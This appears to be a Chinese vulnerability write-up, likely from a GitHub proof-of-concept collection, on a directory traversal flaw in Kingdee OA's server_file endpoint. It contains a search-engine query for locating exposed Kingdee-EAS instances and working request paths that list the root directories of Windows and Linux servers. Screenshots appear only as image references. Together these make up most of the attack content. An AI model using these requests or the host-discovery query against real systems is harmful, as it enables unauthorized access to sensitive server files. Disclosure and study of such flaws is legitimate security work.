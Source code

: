# 

# 金蝶OA server_file 目录遍历漏洞

## 漏洞描述

金蝶OA server_file 存在目录遍历漏洞，攻击者通过目录遍历可以获取服务器敏感信息

## 漏洞影响

```
金蝶OA
```

## 网络测绘

```
app="Kingdee-EAS"
```

## 漏洞复现

登录界面为



![1](./images/202202090144781.png)

漏洞POC

```plain
/appmonitor/protected/selector/server_file/files?folder=/&suffix=

# Windows服务器
appmonitor/protected/selector/server_file/files?folder=C://&suffix=

# Linux服务器
appmonitor/protected/selector/server_file/files?folder=/&suffix=
```

![2](./images/202202090144057.png)
